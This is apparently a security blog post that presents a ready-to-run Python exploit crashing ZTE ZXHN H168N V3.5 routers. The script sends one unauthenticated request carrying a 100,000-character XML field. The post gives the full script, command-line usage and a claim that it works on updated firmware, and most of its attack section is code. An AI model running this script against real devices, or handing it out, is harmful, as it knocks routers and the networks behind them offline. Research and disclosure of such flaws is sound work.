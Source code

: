 ```yaml
---
title: "Exploit Writing (KILLx108): Kill ZTE Router "
classes: wide
header:
  teaser: /assets/images/clchdo96yeclu0jp8gj7mf54a.png
ribbon: gray
description: "Exploit for unknown vulnerability in `ZXHN H168N V3.5` to kill the device with one request."
categories:
  - IoT Exploitation
toc: true
---
```


# Introduction
After we had a lot  of information and understand where is the bug in the previous research (You can read it from [here](https://zeyadazima.com/defense%20evasion/portspoof/)). Now, It's time to exploit it and create an exploit.

# The Exploit
It's time to explain how to exploit it. So, previously it seems to be parsing the `XML` request we send and exposing information about `Objects/Parameters` and their values. and whatever `XML`  request we send it's back with the same information. But, even tho we can not access these information if we are not authenticated. But, It's still parsing our request if we are not authenticated. So, Let's try our large value again here. And if we did that we will triage a crash in the router.

- First we imported the needed libraries we going to use
```
import random
import string
import sys
import urllib3
import requests
```

- `requests`: to send our request exploit to the target.
- `urllib3`: I used it here to diable the warings.
- `sys`: to take arguments from the user through the command line.
- `string`: to use it for the random library in generating the payload.
- `random`: to create a payload with random strings from the `strings` library.
<br>
- Second part a function taking 2 arguments
```
def attack(target, porot):

    url = f"{porot}://{target}/common_page/Localnet_WlanBasicAd_WLANSSIDConf_EncryOption_lua.lua"
    try:
        print("[+] Check if the target is alive")
        check = requests.get(url, timeout=10, verify=False)
        if check.status_code == 200 or 301 or 302 or 303:
            print("[+] Target is alive")
            print("[+] Sending request...")
            create = string.ascii_uppercase
            payload = ''.join(random.choice(create) for i in range(100000))
            cookies = {"_TESTCOOKIESUPPORT": "1"}
            Headers = {"Connection": "close",
                       "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"",
                       "Accept": "application/xml, text/xml, */*; q=0.01", "X-Requested-With": "XMLHttpRequest",
                       "sec-ch-ua-mobile": "?0",
                       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36",
                       "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                       "Origin": "https://192.168.1.1", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors",
                       "Sec-Fetch-Dest": "empty", "Referer": "https://"+target+"/", "Accept-Encoding": "gzip, deflate",
                       "Accept-Language": "en-US,en;q=0.9"}
            Data = f"<ajax_response_xml_root><INSTIDENTITY>{payload}</INSTIDENTITY></ajax_response_xml_root>"
```

Basically, This function will take 2 arguments which is `protocol`, ethier is `http` or `https` and the `target` you want to exploit it. Then, it will check if the target alive and responded or no. After that in the following lines:
```
create = string.ascii_uppercase
payload = ''.join(random.choice(create) for i in range(100000))
```
it will create a random `100000` length of strings to send it with the request and crash the device.

- Full code:
```
```
import random
import string
import sys
import urllib3
import requests


urllib3.disable_warnings()


def attack(target, porot):

    url = f"{porot}://{target}/common_page/Localnet_WlanBasicAd_WLANSSIDConf_EncryOption_lua.lua"
    try:
        print("[+] Check if the target is alive")
        check = requests.get(url, timeout=10, verify=False)
        if check.status_code == 200 or 301 or 302 or 303:
            print("[+] Target is alive")
            print("[+] Sending your request...")
            create = string.ascii_uppercase
            payload = ''.join(random.choice(create) for i in range(100000))
            cookies = {"_TESTCOOKIESUPPORT": "1"}
            Headers = {"Connection": "close",
                       "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"",
                       "Accept": "application/xml, text/xml, */*; q=0.01", "X-Requested-With": "XMLHttpRequest",
                       "sec-ch-ua-mobile": "?0",
                       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36",
                       "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                       "Origin": "https://192.168.1.1", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors",
                       "Sec-Fetch-Dest": "empty", "Referer": "https://"+target+"/", "Accept-Encoding": "gzip, deflate",
                       "Accept-Language": "en-US,en;q=0.9"}
            Data = f"<ajax_response_xml_root><INSTIDENTITY>{payload}</INSTIDENTITY></ajax_response_xml_root>"
            try:
                att = requests.post(url, headers=Headers, cookies=cookies, data=Data, verify=False, timeout=5)
                print("[-] Target is not Vulnerable")
                sys.exit()
            except requests.exceptions.Timeout:
                print("[+] Target vulnerable and dead now")

            print("[+] Exploit by: Zeyad Azima")

        else:
            print("[-] Your Target is not Alive")
    except Exception as error:
        print("[-]", error)

```
```
try:
    if sys.argv[2] == "http" or "https":
        attack(sys.argv[1], sys.argv[2])
    else:
        print("[-] Please enter a valid protocol (http or https)")

except IndexError:
    print("[-] Please Set your target \n ex: exploit.py target protocol")
```

- Usage
```
python3 exploit.py IP http/s
```

![7af704b3c8e1921061c437d260c30ccf.png](/assets/images/7af704b3c8e1921061c437d260c30ccf.png)

# Conclusion
At the end, it was a simple bug, But it's lead to take the device down. The exploit works with the other new and updated versions. You can see the full code here on github.

By: [Zeyad Azima](https://www.linkedin.com/in/zer0verflow/)  
Source: Vsociety

